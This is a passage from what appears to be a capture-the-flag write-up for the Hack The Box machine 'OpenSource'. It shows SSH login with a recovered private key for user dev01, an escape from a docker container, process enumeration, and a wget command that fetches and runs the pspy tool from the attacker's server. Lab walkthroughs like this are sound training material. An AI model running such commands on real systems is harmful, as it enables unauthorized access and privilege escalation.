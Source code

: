 Yes!! **Let's copy and paste it to our attacker machine, and set it to be read/write only by current user.**

```
┌──(root🌸siunam)-[~/ctf/htb/Machines/OpenSource]
└─# nano dev01_id_rsa                    
                                                                                                                          
┌──(root🌸siunam)-[~/ctf/htb/Machines/OpenSource]
└─# chmod 600 dev01_id_rsa
```

**Since we have a private SSH key for user `dev01`, we can login as `dev01` via `ssh` with the private key:**
```
┌──(root🌸siunam)-[~/ctf/htb/Machines/OpenSource]
└─# ssh -i dev01_id_rsa dev01@$RHOSTS
[...]
-bash-4.4$ whoami;hostname;id;ip a
dev01
opensource
uid=1000(dev01) gid=1000(dev01) groups=1000(dev01)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:49:2e brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.164/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
3: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:e6:59:a0:70 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
```

We're user `dev01` and successfully escaped the docker container!

**user.txt:**
```
-bash-4.4$ cat /home/dev01/user.txt 
{Redacted}
```

## dev01 to root

**By doing manual enumeration, I saw a process stood out:**
```
-bash-4.4$ ps aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
[...]
root     31541  0.0  0.0  17640  3912 ?        S    12:32   0:00 git push origin main
```

**Let's upload [pspy](https://github.com/DominicBreuker/pspy) and run it to enumerate deeper:**
```
┌──(root🌸siunam)-[/opt/pspy]
└─# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

-bash-4.4$ wget http://10.10.14.42/pspy64 -O /tmp/pspy;chmod +x /tmp/pspy
```
